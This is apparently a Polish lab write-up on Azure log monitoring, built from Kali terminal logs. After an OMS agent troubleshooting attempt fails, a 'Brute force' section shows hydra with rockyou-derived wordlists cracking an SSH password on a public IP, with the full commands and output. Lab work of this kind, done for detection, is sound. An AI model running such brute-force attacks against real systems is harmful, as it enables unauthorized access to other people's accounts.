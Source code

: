 ```
┌──(useradm㉿kali)-[~]
└─$ sudo /opt/microsoft/omsagent/bin/troubleshooter
Checking for python install...
Checking all necessary python modules are installed...
Checking all necessary programs are installed...
Running troubleshooting tool in Python 3.10.8...

(...)

ALL ERRORS/WARNINGS ENCOUNTERED:
  ERROR FOUND: OMSConfig isn't installed correctly.
--------------------------------------------------------------------------------
  ERROR FOUND: OMS isn't installed correctly.
--------------------------------------------------------------------------------
  ERROR FOUND: Kali GNU/Linux is not a supported Operating System. To see all supported Operating Systems, please go to:

   https://docs.microsoft.com/en-us/azure/azure-monitor/platform/log-analytics-agent#supported-linux-operating-systems

```

Uświadomiwszy sobie, że maszyna z kalim nie musi wcale być podpięta do LA, zostawiamy temat.



#### [1] Brute force

```
> ssh useradm@40.118.43.109

┌──(useradm㉿kali)-[~]
└─$ sudo apt update && sudo apt install hydra wordlists

┌──(useradm㉿kali)-[~/tmp]
└─$ cp /usr/share/wordlists/rockyou.txt.gz .   

┌──(useradm㉿kali)-[~/tmp]
└─$ gzip -d rockyou.txt.gz 

┌──(useradm㉿kali)-[~/tmp]
└─$ head -20 rockyou.txt > user.txt

┌──(useradm㉿kali)-[~/tmp]
└─$ head -20 rockyou.txt > pass.txt
```
```
┌──(useradm㉿kali)-[~/tmp]
└─$ hydra -I -L user.txt -P pass.txt -t 4 13.69.60.127 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-12-01 21:27:24
[DATA] max 4 tasks per 1 server, overall 4 tasks, 484 login tries (l:22/p:22), ~121 tries per task
[DATA] attacking ssh://13.69.60.127:22/
[STATUS] 60.00 tries/min, 60 tries in 00:01h, 424 to do in 00:08h, 4 active
[22][ssh] host: 13.69.60.127   login: useradm   password: adminToDupa123
[STATUS] 59.67 tries/min, 179 tries in 00:03h, 305 to do in 00:06h, 4 active
[STATUS] 53.71 tries/min, 376 tries in 00:07h, 108 to do in 00:03h, 4 active
[STATUS] 52.25 tries/min, 418 tries in 00:08h, 66 to do in 00:02h, 4 active
[STATUS] 50.22 tries/min, 452 tries in 00:09h, 32 to do in 00:01h, 4 active
[STATUS] 48.40 tries/min, 484 tries in 00:10h, 1 to do in 00:01h, 3 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-01 21:37:34
```